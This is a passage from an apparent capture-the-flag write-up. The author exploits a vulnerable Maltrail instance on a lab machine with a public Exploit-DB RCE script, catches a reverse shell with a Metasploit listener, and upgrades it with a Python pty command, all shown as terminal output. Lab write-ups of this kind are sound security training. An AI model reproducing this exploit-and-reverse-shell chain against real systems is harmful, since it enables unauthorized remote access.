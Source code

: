 I checked both ports and there is the same service on both port `80` and port `8338`, I focus on port `80`.

<div><p align="center"><img src="img/mailtrail.png"></div>

[Maltrail](https://github.com/stamparm/maltrail) is a malicious traffic detection system, utilizing publicly available black lists containing malicious and/or generally suspicious trails, along with static trails compiled from various AV reports and custom user defined lists, where trail can be anything from domain name (e.g. zvpprsensinaix.com for Banjori malware), URL (e.g. hXXp://109.162.38.120/harsh02.exe for known malicious executable), IP address (e.g. 185.130.5.231 for known attacker) or HTTP User-Agent header value (e.g. sqlmap for automatic SQL injection and database takeover tool). Also, it uses (optional) advanced heuristic mechanisms that can help in discovery of unknown threats (e.g. new malware).

Again I searched for the version on the internet and discovered that this version of Malrail is vulnerable to Remote Code Execution (RCE), and there are many public exploits.

I downloaded an [exploit](https://www.exploit-db.com/exploits/51676), set up a listener via metasploit, and ran the exploit. So I got a perfectly working reverse shell.

* exploit
```
$ python 51676 10.10.14.59 4444 http://10.10.11.224:55555/rjxsgj         
Running exploit on http://10.10.11.224:55555/rjxsgj/login

```

* reverse shell
```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.59:4444 
[*] Command shell session 1 opened (10.10.14.59:4444 -> 10.10.11.224:43028) at 2023-09-13 10:58:52 +0200


Shell Banner:
$
-----

$ python3 -c 'import pty; pty.spawn("/bin/bash");'
python3 -c 'import pty; pty.spawn("/bin/bash");'
puma@sau:/opt/maltrail$
```
